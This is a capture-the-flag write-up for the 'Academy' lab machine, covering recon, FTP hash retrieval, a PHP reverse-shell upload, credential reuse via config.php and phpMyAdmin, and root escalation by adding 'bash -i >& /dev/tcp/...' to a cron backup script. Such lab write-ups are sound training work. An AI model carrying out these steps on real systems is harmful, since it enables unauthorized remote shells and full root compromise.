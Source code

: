 # Academy machine by TCM
IP= {target_IP}
---
### Reconnaissance

Nmap scan: \
            nmap -sC -sV -p- {target_IP} -oN scan.initial      

        Nmap scan report for {target_IP}\
        Not shown: 65532 closed tcp ports (conn-refused)\
        PORT   STATE SERVICE VERSION\
        21/tcp open  ftp     vsftpd 3.0.3\
        | ftp-anon: Anonymous FTP login allowed (FTP code 230)\
        |_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt\
        | ftp-syst:\
        |   STAT:\
        | FTP server status:\
        |      Connected to ::ffff:{IP}\
        |      Logged in as ftp\
        |      TYPE: ASCII\
        |      No session bandwidth limit\
        |      Session timeout in seconds is 300\
        |      Control connection is plain text\
        |      Data connections will be plain text\
        |      At session startup, client count was 3\
        |      vsFTPd 3.0.3 - secure, fast, stable\
        |*End of status\
        22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)\
        | ssh-hostkey:\
        |   2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)\
        |   256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)\
        |*  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)\
        80/tcp open  http    Apache httpd 2.4.38 ((Debian))\
        |_http-server-header: Apache/2.4.38 (Debian)\
        |_http-title: Apache2 Debian Default Page: It works\
        Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel\

---
Let's scan with ffuf for directory enumiration

    ffuf -u http://{target_IP}/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \

/academy\
/phpmyadmin
---

By exploring the ftp we found a file note.txt

`ftp $IP with login anonymous`

`get note.txt` open the file note.txt

```
Hello Heath !
Grimmie has setup the test website for the new academy.
I told him not to use the same password everywhere, he will change it ASAP.

I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command:

INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

The StudentRegno number is what you use for login.

Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?
We can always adapt it to our needs.

- jdelta 
```
cd73502828457d15655bbd7a63fb0bc8 > md5 > `student` we can check in the https://crackstation.net/ web-site

---

Navigate to `http://{target_IP}/academy` \
and login via credentials that is provide in note.txt\
`10201321` and password is `student`

By exploring the pages we found out that we have a load profile photo that support .php format, by that we will exploit via `file inclusion`

The reverse-shell https://github.com/pentestmonkey/php-reverse-shell > change the IP and port 

we upload the profile photo `shell.php` and after successfully downloaded the file go to 

http://{target_IP}/academy/studentphoto/shell.php

set `nc -lvnp 4444` in the terminal a we got a reverse shell:

`www-data@academy:`

---

Then we go to `www-data@academy:/home/grimmie/` directory and found the file `[backup.sh](http://backup.sh)` let’s print it out:

`www-data@academy:/home/grimmie$ cat backup.sh`

```
#!/bin/bash

rm /tmp/backup.zip
zip -r /tmp/backup.zip /var/www/html/academy/includes
chmod 700 /tmp/backup.zip
```

Go to the following path `/tmp/backup.zip /var/www/html/academy/includes`

and we have a `config.php` file here with mysql credentials:

cat config.php

```
<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");
```

so now we can go to /phpmyadmin page and login as `grimmie`:

login: `grimmie`
password: `My_V3ryS3cur3_P4ss`

By exploring the tables we found the users:\
`root: 8DEB44F79A130674A714BA1A66387EC111A82BD1 mysql > 26021997`\
`grimmie: FBAFF8215F65CDBF082236E749CD2D772DC921C7 > SHA1 > My_V3ryS3cur3_P4ss`

---

Now we can login via ssh with grimmie credentials:

`ssh grimmie@{target_IP}` and password:`My_V3ryS3cur3_P4ss`

We know that we have a `backup.sh` file that executes, by we dont know how often does it executes:

let download the file to our mashine:

https://github.com/DominicBreuker/pspy?tab=readme-ov-file

it will show all the process that runs

so download it and start `python3 -m http.server 8080` and wget it on your `grimmie` session : wget {your_IP}:8080/pspy64

give it execution `chmod +x pspy64` and run ./pspy64

we get know now, that `backup.sh`  runs every 1 min

so now lets modify and put reverse shell to `backup.sh` file, go to

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

grab the bash shell:
modify and insert your `IP/port` \
`bash -i >& /dev/tcp/{your_IP}/1234 0>&1`

add it ot `backup.sh` file and start listener: `nc -lvnp 1234`

After 1 min it execuses and we got reverse shell with root priviliges.

### Congrats!